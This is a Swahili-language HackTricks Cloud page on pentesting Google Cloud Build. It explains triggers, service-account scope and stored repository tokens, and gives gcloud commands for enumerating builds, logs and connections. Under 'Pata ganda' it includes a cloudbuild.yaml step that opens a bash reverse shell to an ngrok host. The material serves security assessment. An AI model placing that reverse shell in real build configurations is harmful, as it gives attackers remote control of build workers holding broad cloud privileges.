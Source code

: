 # GCP - Uchambuzi wa Cloud Build

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

Google Cloud Build ni jukwaa la CI/CD lililosimamiwa linalo **automatisisha ujenzi wa programu** na mchakato wa kutolewa, likiunganisha na **hifadhi ya msimbo wa chanzo** na kusaidia anuwai ya lugha za programu. **Inaruhusu watengenezaji kujenga, kujaribu, na kutolea kificho kiotomatiki** huku ikitoa mabadiliko ya kubinafsisha hatua za ujenzi na mifumo ya kazi.

Kila Kichocheo cha Cloud Build **kinahusiana na Hifadhi ya Cloud au kimeunganishwa moja kwa moja na hifadhi ya nje** (Github, Bitbucket na Gitlab).

{% hint style="success" %}
Sikuweza kuona njia yoyote ya kuiba token ya Github/Bitbucket kutoka hapa au kutoka kwa Hifadhi za Cloud kwa sababu wakati hifadhi inapakuliwa inafikiwa kupitia URL ya [https://source.cloud.google.com/](https://source.cloud.google.com/) na Github haifikiwi na mteja.
{% endhint %}

### Matukio

Cloud Build inaweza kuzinduliwa ikiwa:

* **Kupakia kwenye tawi**: Eleza tawi
* **Kupakia lebo mpya**: Eleza lebo
* **Ombi la Kuvuta**: Eleza tawi linalopokea PR
* **Mwaliko wa Mwongozo**
* **Ujumbe wa Pub/Sub:** Eleza mada
* **Tukio la Webhook**: Itafunua URL ya HTTPS na ombi lazima liwe limehakikiwa na siri

### Utekelezaji

Kuna chaguzi 3:

* Yaml/json **inayoeleza amri** za kutekeleza. Kawaida: `/cloudbuild.yaml`
* Moja tu inayoweza kuelezwa "moja kwa moja" kwenye konsoli ya wavuti na kwenye cli
* Chaguo la kawaida zaidi
* Muhimu kwa ufikiaji usiothibitishwa
* **Dockerfile** ya kujenga
* **Buildpack** ya kujenga

### Ruhusa za SA

**Akaunti ya Huduma ina wigo wa `cloud-platform`**, hivyo inaweza **kutumia mamlaka yote.** Ikiwa **hakuna SA inayoelezwa** (kama wakati wa kuwasilisha) **SA ya chaguo-msingi** `<nambari-ya-proj>@cloudbuild.gserviceaccount.com` itatumika.

Kwa chaguo-msingi hakuna ruhusa zinazotolewa lakini ni rahisi kumpa baadhi:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Idhini

Inawezekana kusanidi Cloud Build ku **hitaji idhini kwa utekelezaji wa ujenzi** (imelemazwa kwa chaguo-msingi).

### Uunganisho & Hifadhi

Unganisho linaweza kuundwa kupitia:

* **GitHub:** Itaonyesha dirisha la OAuth likiomba ruhusa za **kupata token la Github** ambalo litahifadhiwa ndani ya **Meneja wa Siri.**
* **GitHub Enterprise:** Itaomba kusakinisha **GithubApp**. **Tokeni ya uthibitishaji** kutoka kwa mwenyeji wako wa GitHub Enterprise itaundwa na kuhifadhiwa katika mradi huu kama siri ya **Meneja wa Siri.**
* **GitLab / Enterprise:** Lazima utoe **tokeni ya ufikiaji wa API na tokeni ya ufikiaji wa API ya Kusoma** ambayo itahifadhiwa katika **Meneja wa Siri.**

Marapo unapoundwa, unaweza kutumia kuiunganisha na **hifadhi ambazo akaunti ya Github ina ufikiaji**.

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Tafadhali kumbuka kuwa hifadhi zilizounganishwa kwa njia hii zinapatikana **kwenye Vichocheo vinavyotumia 2nd generation tu.**
{% endhint %}

### Unganisha Hifadhi

Hii sio sawa na **`unganisho`**. Hii inaruhusu njia **tofauti** za kupata **ufikiaji wa hifadhi ya Github au Bitbucket** lakini **haisababishi kitu cha kuunganisha, lakini inazalisha kitu cha hifadhi (ya kizazi cha 1).**

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Uhifadhi

Wakati mwingine Cloud Build ita **zalisha uhifadhi mpya kuhifadhi faili za kichocheo**. Hii hutokea kwa mfano katika mfano ambao GCP inatoa na:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) imeundwa kuhifadhi `.tgz` na faili zitakazotumika.

### Pata ganda
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Install gcloud ndani ya cloud build:

```bash
RUN curl https://sdk.cloud.google.com | bash
```
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Uchambuzi

Unaweza kupata **maarifa nyeti katika mipangilio ya ujenzi na kwenye magogo**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Upandishaji wa Mamlaka

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Upatikanaji usiothibitishwa

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Baada ya Uvamizi

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
